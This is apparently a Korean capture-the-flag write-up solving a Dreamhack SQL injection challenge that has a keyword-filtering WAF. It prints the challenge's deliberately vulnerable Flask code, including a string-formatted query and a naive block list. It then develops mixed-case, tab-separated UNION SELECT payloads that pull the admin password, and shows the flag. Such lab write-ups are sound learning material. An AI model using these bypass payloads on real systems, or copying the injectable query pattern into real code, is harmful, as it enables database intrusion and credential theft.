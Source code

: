 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack Web Hacking #SQL Injection Bypass WAF Write-Up</h1>
</body>
<br>
<br>
</html>

문제 서버로 접속해 보자

![image](https://github.com/user-attachments/assets/6e6732e0-14d2-4df5-b9d1-6f471de6207a)

uid 칸에 hello라고 입력하니 WHERE문으로 들어가는 것을 확인할 수 있었다.

![image](https://github.com/user-attachments/assets/564ebedf-e31c-43f5-9c07-379ad84feb01)

이어서 문제 파일을 다운로드 받았다.

app.py 파일과 init.sql 파일이 들어있다.

app.py
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

init.sql
```python
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```

먼저 소스코드를 살펴보니 

```python
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False
```

요 부분에서 ```check_WAF()``` 함수를 통해 입력 값이 필터링 되고 있음을 알 수 있다.

필터링 과정에서 차단되는 단어는 union, select, from, and, or, admin, '', '*', '/'이다.

위 필터링을 우회할 수 있는 방법을 생각해보니 SQL에서는 SELECT와 select는 같은 것으로 취급된다. 

그러므로 WAF가 소문자만 필터링한다면 대문자 혹은 혼용 사용이 가능한 문자로 우회할 수 있을 것 같다. 

그리고 일반적인 공백(스페이스 바) 대신에 %09(탭)을 사용하면 우회할 수 있을 것 같다. 

위 두 방법을 적용하여 쿼리문을 작성해보면 다음과 같다.

```python
'%09Union%09Select%09upw%09From%09user%09where%09uid='Admin'#
```

![image](https://github.com/user-attachments/assets/1ff281cb-801a-4b88-aa36-9d2ab2493b11)

으악! 에러가 난다.

왜 에러가 나는지 곰곰히 생각해 보니 SQL의 UNION은 연산자를 사용할 때 앞 뒤 SELECT문에서 반환하는 컬럼 수가 일치하지 않으면 에러가 발생한다.

usr 테이블을 살펴보면 idx, uid, upw 3개의 컬럼이 있다.

```python
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);
```

UNION을 사용하여 추가 데이터를 조회할 때도 3개의 컬럼을 반환하도록 해야 한다.

그리고 아래 소스코드에 따라 result[1] 즉, 두번째 컬럼의 값만을 반환하도록 설정되어 있으므로 upw를 두번째 위체에 쿼리해야한다.
```python
if result:
            return template.format(uid=uid, result=result[1])
```

컬럼수를 맞추기 위해 null값을 넣어 다시 쿼리문을 작성해 보면

```python
'Union Select null,(Select upw From user where uid='ADMIN'),null#'
```

url 인코딩으로 변환해 주면

```python
%27Union%09Select%09null,(Select%09upw%09From%09user%09where%09uid=%27ADMIN%27),null%23
```

![image](https://github.com/user-attachments/assets/66a7929a-42d5-4e7c-9eaf-4ff0d5771da5)

FLAG를 얻었다!!
DH{bc818d522986e71f9b10afd732aef9789a6db76d}
